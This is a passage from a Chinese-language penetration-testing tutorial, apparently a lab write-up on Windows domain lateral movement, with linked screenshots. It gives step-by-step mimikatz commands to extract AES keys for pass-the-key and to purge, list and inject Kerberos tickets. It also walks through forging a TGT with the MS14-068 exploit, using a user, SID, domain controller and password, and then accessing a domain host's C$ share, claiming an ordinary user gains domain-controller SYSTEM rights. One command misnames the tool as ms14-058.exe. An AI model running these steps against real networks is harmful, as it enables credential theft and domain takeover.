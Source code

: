 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicum920YfaOvlF4gruwmGdUS31UopQZWJ4corwXiaQKtDZsSFSib8uCKnPotcPI64F4ibJrnPsd7ehoQ%2F640%3Fwx_fmt%3Dpng)

这里domain是一个工作组,直接连接到了主机的本地的Administered

### 案例2-域横向移动PTK传递-mimikatz

PTK aes256传递

打补丁后的工作组及域连接:

sekurlsa::ekeys #获取aes

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicum920YfaOvlF4gruwmGdUPLAWianZyKjMUMCyGrRoAl1J02Dg3ppQ28jo0UrqzfroUw5pBYBayOw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicum920YfaOvlF4gruwmGdURBt8SffmyOWpjWFHTQXCXict13aWdSmHJe96zLVWIRRTUCBvRnJjzxA%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicum920YfaOvlF4gruwmGdUib25UXaURCnKwrsOIHxlqaruYa9RTuckrMZvjbQiaGdCML7oIKKibnk6g%2F640%3Fwx_fmt%3Dpng)

弹出一个cmd窗口,尝试连接域内主机

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicum920YfaOvlF4gruwmGdUqBldzmrUfymXIak4araMaibiaYkKVLSMO8oTmiaeXza2TyhLp9o35DR6w%2F640%3Fwx_fmt%3Dpng)

域横向移动PTT传递-MS14068&kekeo&local

第一种利用漏洞:

能实现普通用户直接获取域控system权限

#ms14-068 powershell执行

1.查看当前sid whoami/user

2.mimikatz #kerberos::purge

//清空当前机器中所有凭证,如果有域成员凭证会影响凭证伪造

mimikatz# kerberos::list //查看当前机器凭证

mimikatz# kerberos::ptc 票据文件 //将票据注入到内存中

3.利用ms14-068生成TGT数据

ms14-058.exe 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicum920YfaOvlF4gruwmGdUCpWibyvdcibvxGsbcfic0bxMGm7rEwOASMkVOQ2V77wssWia2EqsOfhE7Q%2F640%3Fwx_fmt%3Dpng)

4.票据注入内存

mimikatz.exe "kerberos::ptc TGT\_mary@god.org.ccache" exit

5.查看凭证列表 klist

6.利用 dir \\\\192.168.3.21\\C$

域内目标机

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicum920YfaOvlF4gruwmGdUIpnuicnEiarWopZZxR4HIQceKQ2iaGkSeH7q8H8lQ2WDsKzQLXwFx1Myw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicum920YfaOvlF4gruwmGdU2c1Xtomh1zTWcSiaT1zsdQrkbXx09SrtXoLjPd22HF2ibO3gHLW9nZibg%2F640%3Fwx_fmt%3Dpng)
